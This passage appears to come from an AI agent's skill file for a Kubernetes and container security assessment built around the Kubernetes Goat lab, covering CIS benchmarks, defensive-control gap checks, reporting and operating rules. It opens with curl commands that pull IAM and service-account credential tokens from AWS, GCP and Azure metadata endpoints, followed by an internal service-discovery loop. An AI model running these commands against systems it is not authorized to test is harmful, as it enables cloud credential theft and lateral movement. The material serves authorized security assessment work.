# AWS metadata
curl -s http://169.254.169.254/latest/meta-data/ 2>/dev/null
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME 2>/dev/null

# GCP metadata
curl -s -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/ 2>/dev/null
curl -s -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token 2>/dev/null

# Azure metadata
curl -s -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" 2>/dev/null
```

**9e. K8s internal DNS service discovery for SSRF:**
From inside a pod, enumerate internal services via DNS:
```
# Kubernetes API internal endpoint
curl -sk https://kubernetes.default.svc.cluster.local/api/v1/namespaces 2>/dev/null | head -20

# Discover services by brute-forcing common names
for svc in redis mysql postgres mongodb elasticsearch dashboard grafana prometheus kibana; do
  for ns in default kube-system prod-1 staging monitoring; do
    nslookup ${svc}.${ns}.svc.cluster.local 2>/dev/null | grep -v NXDOMAIN && echo "FOUND: ${svc}.${ns}"
  done
done
```

---

### Phase 10 — CIS Benchmark Audits (thorough)

**10a. Kubernetes CIS Benchmark via kube-bench:**

kube-bench must run on cluster nodes (needs access to kubelet config, API server manifests, etcd). Deploy as a K8s Job — this is the recommended approach for all cluster types:
```
kali(command="kubectl apply -f - <<'EOF'
apiVersion: batch/v1
kind: Job
metadata:
  name: kube-bench-master
spec:
  template:
    spec:
      hostPID: true
      containers:
      - name: kube-bench
        image: docker.io/aquasec/kube-bench:latest
        command: [\"kube-bench\", \"run\", \"--targets\", \"master\"]
        volumeMounts:
        - name: var-lib-kubelet
          mountPath: /var/lib/kubelet
          readOnly: true
        - name: etc-kubernetes
          mountPath: /etc/kubernetes
          readOnly: true
        - name: etc-systemd
          mountPath: /etc/systemd
          readOnly: true
      restartPolicy: Never
      tolerations:
      - key: node-role.kubernetes.io/control-plane
        operator: Exists
        effect: NoSchedule
      - key: node-role.kubernetes.io/master
        operator: Exists
        effect: NoSchedule
      nodeSelector:
        node-role.kubernetes.io/control-plane: \"\"
      volumes:
      - name: var-lib-kubelet
        hostPath:
          path: /var/lib/kubelet
      - name: etc-kubernetes
        hostPath:
          path: /etc/kubernetes
      - name: etc-systemd
        hostPath:
          path: /etc/systemd
EOF
2>/dev/null && sleep 15 && kubectl logs job/kube-bench-master 2>/dev/null | tail -60")
```

Key CIS checks that map to Kubernetes Goat scenarios:
| CIS Check | Finding | Scenario |
|-----------|---------|----------|
| 1.1.* | API server configuration | Scenario 6 |
| 1.2.1 | `--anonymous-auth` should be false | Scenario 3/16 |
| 1.2.6 | `--authorization-mode` should not include AlwaysAllow | Scenario 6 |
| 1.2.29 | `--encryption-provider-config` should be set | Scenario 8/12 |
| 1.2.33 | `--audit-log-path` should be set | Scenario 6 |
| 4.1.* | Worker node configuration | Scenario 5/6 |
| 4.2.1 | Kubelet `--anonymous-auth` should be false | Scenario 3 |
| 5.1.* | RBAC and ServiceAccounts | Scenario 16 |
| 5.2.* | Pod Security Standards | Scenario 4/5 |

**10b. Container Runtime CIS Benchmark:**

First detect the container runtime — this determines which benchmark to run:
```
kali(command="kubectl get nodes -o jsonpath='{.items[0].status.nodeInfo.containerRuntimeVersion}' 2>/dev/null")
```

| Runtime | Benchmark | Notes |
|---------|-----------|-------|
| `containerd://` | kube-bench covers containerd via K8s CIS (Phase 10a) | Most modern clusters (kind, EKS, GKE, AKS) |
| `docker://` | docker-bench-security | Legacy Docker runtime only |
| `cri-o://` | kube-bench covers CRI-O via K8s CIS (Phase 10a) | OpenShift clusters |

**Docker runtime only** — deploy docker-bench-security as a DaemonSet:
```
kali(command="kubectl apply -f - <<'EOF'
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: docker-bench
spec:
  selector:
    matchLabels:
      name: docker-bench
  template:
    metadata:
      labels:
        name: docker-bench
    spec:
      hostPID: true
      hostIPC: true
      hostNetwork: true
      containers:
      - name: docker-bench
        image: docker/docker-bench-security
        command: [\"sh\", \"-c\", \"docker-bench-security.sh && sleep 3600\"]
        securityContext:
          privileged: true
        volumeMounts:
        - name: docker-sock
          mountPath: /var/run/docker.sock
          readOnly: true
        - name: etc
          mountPath: /etc
          readOnly: true
      volumes:
      - name: docker-sock
        hostPath:
          path: /var/run/docker.sock
      - name: etc
        hostPath:
          path: /etc
EOF
2>/dev/null && sleep 20 && kubectl logs ds/docker-bench 2>/dev/null | tail -40")
```

**containerd/CRI-O runtime** — skip docker-bench-security (not applicable). The kube-bench run from Phase 10a already covers containerd-specific node configuration. Log a note explaining why docker-bench was skipped.

**10c. API server configuration audit (manual):**
```
kali(command="kubectl get pods -n kube-system -l component=kube-apiserver -o jsonpath='{.items[0].spec.containers[0].command}' 2>/dev/null | tr ',' '\\n' | grep -E 'anonymous-auth|authorization-mode|enable-admission|encryption-provider|audit-log|allow-privileged|insecure-port|service-account-lookup'")
```

Check these critical API server flags:
| Flag | Secure Value | Risk if Missing/Wrong |
|------|-------------|----------------------|
| `--anonymous-auth` | `false` | Unauthenticated API access |
| `--authorization-mode` | `Node,RBAC` (no AlwaysAllow) | No authorization enforcement |
| `--enable-admission-plugins` | Include PodSecurity, NodeRestriction | No workload restrictions |
| `--encryption-provider-config` | Set to encryption config file | Secrets in plaintext in etcd |
| `--audit-log-path` | Set to log file | No audit trail |
| `--insecure-port` | `0` | Unauthenticated HTTP API |
| `--kubelet-certificate-authority` | Set | No kubelet auth verification |

---

### Phase 11 — Defensive Controls Gap Analysis (thorough)

Check for the presence of security tools and controls. Their ABSENCE is a finding.

**11a. Admission controllers:**
```
kali(command="kubectl get pods --all-namespaces 2>/dev/null | grep -iE 'gatekeeper|kyverno|falco|tetragon|kubearmor|neuvector|twistlock|prisma|aqua|stackrox'")
kali(command="kubectl get validatingwebhookconfigurations 2>/dev/null")
kali(command="kubectl get mutatingwebhookconfigurations 2>/dev/null")
kali(command="kubectl api-resources 2>/dev/null | grep -iE 'constraint|policy|kyverno'")
```

No admission webhooks = **Medium** finding — no policy enforcement beyond built-in controllers.

**11b. Pod Security Standards enforcement:**
```
kali(command="kubectl get namespaces -o json 2>/dev/null | python3 -c '
import json, sys
d = json.load(sys.stdin)
for ns in d.get(\"items\", []):
    name = ns[\"metadata\"][\"name\"]
    labels = ns[\"metadata\"].get(\"labels\", {})
    enforce = labels.get(\"pod-security.kubernetes.io/enforce\", \"NONE\")
    audit = labels.get(\"pod-security.kubernetes.io/audit\", \"NONE\")
    warn = labels.get(\"pod-security.kubernetes.io/warn\", \"NONE\")
    if enforce == \"NONE\" and audit == \"NONE\" and warn == \"NONE\":
        print(f\"MEDIUM: {name}: no PodSecurity labels (unrestricted workloads)\")
    else:
        print(f\"OK: {name}: enforce={enforce} audit={audit} warn={warn}\")
' 2>/dev/null")
```

**11c. Runtime security monitoring:**
```
kali(command="kubectl get pods --all-namespaces 2>/dev/null | grep -iE 'falco|tetragon|sysdig|cilium'")
kali(command="kubectl get daemonsets --all-namespaces 2>/dev/null | grep -iE 'falco|tetragon|sysdig'")
```

No runtime security tool = **Medium** finding — no detection of container escape, sensitive file access, or suspicious process execution.

**11d. Audit logging:**
```
kali(command="kubectl get pods -n kube-system -l component=kube-apiserver -o jsonpath='{.items[0].spec.containers[0].command}' 2>/dev/null | tr ',' '\\n' | grep audit")
```

No `--audit-log-path` = **High** finding — all API actions are unlogged.

**11e. Resource limits and quotas:**
```
kali(command="kubectl get limitranges --all-namespaces 2>/dev/null")
kali(command="kubectl get resourcequotas --all-namespaces 2>/dev/null")
```

No LimitRange or ResourceQuota = **Medium** finding — pods can consume unlimited resources (DoS vector).

**11f. Image pull policy and allowed registries:**
```
kali(command="kubectl get pods --all-namespaces -o json 2>/dev/null | python3 -c '
import json, sys
d = json.load(sys.stdin)
for p in d.get(\"items\", []):
    for c in p[\"spec\"].get(\"containers\", []):
        policy = c.get(\"imagePullPolicy\", \"IfNotPresent\")
        image = c.get(\"image\", \"\")
        # Flag: Always pull policy missing for latest tags
        if \":latest\" in image and policy != \"Always\":
            print(f\"LOW: {p[\"metadata\"][\"namespace\"]}/{p[\"metadata\"][\"name\"]}: {image} with pullPolicy={policy}\")
        # Flag: Docker Hub images without org/digest
        if \"/\" not in image.split(\":\")[0] or (not image.startswith(\"gcr.io\") and not image.startswith(\"registry.\") and \"@sha256:\" not in image):
            print(f\"INFO: {p[\"metadata\"][\"namespace\"]}/{p[\"metadata\"][\"name\"]}: unpinned image {image}\")
' 2>/dev/null | head -30")
```

---

### Phase 12 — Attack Path Diagram & Report

1. Call `report(action="diagram", data={...})` with a comprehensive attack path map showing all discovered vectors:



2. Call `report(action="note", data={...})` with assessment summary:
```
Container/K8s Security Assessment Summary:
  Cluster version:         [version]
  API server auth:         [anonymous/token/cert]
  Kubelet auth:            [anonymous/AlwaysAllow/Webhook]
  etcd access:             [exposed/authenticated/encrypted]
  RBAC issues:             [count] overly permissive roles
  Privileged pods:         [count]
  Container escapes:       [count] vectors ([docker.sock/containerd.sock/hostPath/privileged/chroot])
  Secrets exposed:         [count] ([env-vars/volumes/etcd-plaintext])
  Image vulns:             [critical] critical, [high] high
  Hidden layer secrets:    [count] images with secrets in layers
  Network policies:        [present/absent] ([count] namespaces without)
  NodePort services:       [count] externally accessible
  Cross-NS connectivity:   [verified/blocked]
  Private registries:      [count] unauthenticated
  CIS benchmark:           [pass] pass, [fail] fail, [warn] warn
  Admission controllers:   [present/absent] ([tools])
  Runtime security:        [present/absent] ([tools])
  Audit logging:           [enabled/disabled]
  Resource limits:         [enforced/missing]
  Cloud metadata access:   [accessible/blocked]
```

3. Call `session(action="complete", options={...})` with summary

---

## Kubernetes Goat Scenario Coverage Map

This table maps each Kubernetes Goat attack scenario to the phase in this skill that detects it.

| # | Scenario | Phase | How We Detect It |
|---|----------|-------|-----------------|
| 1 | Sensitive keys in codebases | 7d | .git exposure scan in running containers |
| 2 | DIND/containerd exploitation | 5a | Container runtime socket discovery + exploit |
| 3 | SSRF in K8s pod | 9d, 9e | Cloud metadata SSRF + K8s DNS service discovery |
| 4 | Container escape to host | 5b, 5c | Privileged escape via chroot + hostPath abuse |
| 5 | Docker CIS benchmarks | 10b | docker-bench-security audit |
| 6 | K8s CIS benchmarks | 10a | kube-bench CIS audit |
| 7 | Private registry attack | 8f | Registry /v2/_catalog + manifest env var extraction |
| 8 | NodePort exposed services | 2 | NodePort service enumeration + probing |
| 10 | Crypto miner in container | 8c, 8e | Image layer inspection + process monitoring |
| 11 | Namespace bypass | 9b, 9c | Cross-namespace connectivity test |
| 12 | Environment info gathering | 7c | Env var + mount + proc enumeration from inside pod |
| 13 | DoS via resources | 11e, 4 | LimitRange/ResourceQuota/resource limits audit |
| 14 | Hacker container | 6b, 11a | Pod creation RBAC + admission controller check |
| 15 | Hidden in layers | 8c, 8d | docker history + docker save layer extraction + dive |
| 16 | RBAC misconfiguration | 6a-6d | Full RBAC audit + SA token API testing |
| 17 | KubeAudit defense | 11a | Check for audit tools presence |
| 18 | Falco runtime detection | 11c | Check for Falco DaemonSet |
| 19 | Popeye sanitizer | 11a | Check for cluster sanitizer tools |
| 20 | NetworkPolicy defense | 9a | Check for NetworkPolicy presence |
| 21 | Tetragon/eBPF | 11c | Check for Tetragon/Cilium DaemonSet |
| 22 | Kyverno policy engine | 11a | Check for Kyverno admission webhooks |

---

## Chaining Other Skills

| Skill | When to invoke |
|-------|----------------|
| `/post-exploit` | Container escape achieved — post-exploitation on host node |
| `/credential-audit` | Default creds found on exposed services (Redis, dashboards) |
| `/network-assess` | Internal network beyond K8s (VLAN, ARP, broadcast protocols) |
| `/ssl-tls-audit` | TLS services on K8s ingress or NodePorts — deep TLS audit |
| `/threat-modeling` | Produce PASTA threat model of the K8s architecture |
| `/gh-export` | When user asks to file GitHub issues|

---

## Context Recovery After Compaction

When your context is compacted mid-skill:

1. **Call `session(action="recovery")`** before doing anything else — returns `tools_already_run`, `in_progress_cells`, `pending_escalations`, and `EXECUTE_NOW`
2. **Resume `in_progress` cells first** — notes record which escape vectors, RBAC bindings, or pod configurations were partially tested
3. **Follow `pending_escalations`** — e.g., "test service account token against K8s API for cluster-admin" leads flagged mid-scan
4. **Skip completed phases in `tools_already_run`** — do not re-run trivy or kube-bench if already recorded
5. **Never assert container escape from memory** — after compaction, re-run the confirming `amicontained` / `kubectl auth can-i` command before reporting

---

## Rules

- **`session(action="start", options={...})` is mandatory** — never run any other tool before it
- **Batch independent tools in the same response** — they execute in parallel
- When any tool returns a LIMIT message, stop immediately and call `session(action="complete", options={...})`
- **Check anonymous auth first** — unauthenticated K8s API and kubelet access are the most critical findings
- **Enumerate service accounts** — they're the most common K8s attack vector
- **Always check NodePort range** — these bypass ingress controls entirely
- **Inspect image layers** — secrets hidden in deleted layers are invisible at runtime but persist in the image
- **Test cross-namespace connectivity** — the flat network model is a lateral movement goldmine
- **Check for SSRF to metadata** — cloud credentials via 169.254.169.254 from pods
- **Verify defensive controls** — the ABSENCE of Falco, Kyverno, NetworkPolicies, audit logging is itself a finding
- **Call `report(action="finding", data={...})` for every confirmed weakness** — include the specific resource, misconfiguration, and impact
- **Test container escape only when authorized** — these can affect the underlying host
- **Use `report(action="note", data={...})` liberally** — document K8s version, RBAC findings, pod configurations
- **Never fabricate findings** — only report what tool output confirms
- **Mermaid syntax rules**: use `flowchart TD`, quote labels, no em-dashes, short alphanumeric node IDs
- Call `session(action="stop_kali")` at the end if `kali(command=...)` was used
